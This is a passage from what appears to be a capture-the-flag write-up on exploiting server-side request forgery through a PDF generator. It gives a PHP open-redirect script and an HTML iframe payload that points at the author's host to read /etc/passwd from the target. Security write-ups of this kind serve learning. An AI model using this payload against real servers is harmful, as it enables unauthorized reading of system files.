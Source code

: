 ![http serv](../.res/2022-12-10-11-21-42.png)  
Let's try to go further now that we can see that we have a possible interaction.
Ideally we would like to be able to execute code in the server to gain access.  
While looking around I stumbled on [this article](https://www.jomar.fr/posts/2021/ssrf_through_pdf_generation/) that is really good.  
For the last part of the article we need a webserver that can handle php.
We can use php because it has a built in webserver.  
This should do the trick `php -S 127.0.0.1:80 -t .`  
Let's try the snippet from the article  

```php
<?php 
$loc = "http://127.0.0.1/";

if(isset($_GET['a'])){
    $loc = $_GET['a'];
}
header('Location: '.$loc);
?>
```

Now we just need to put this in our html file  

```html
<iframe src="https://10.10.14.2/test.php?a=file:///etc/passwd">
```

So to recap we have burp repeater that will query our server to fetch the html file. The html will then query our php that will query the etc/passwd from our target.  
Let's try this.  
I am having troube with the builtin php server, so I am just going to use Apache2.  
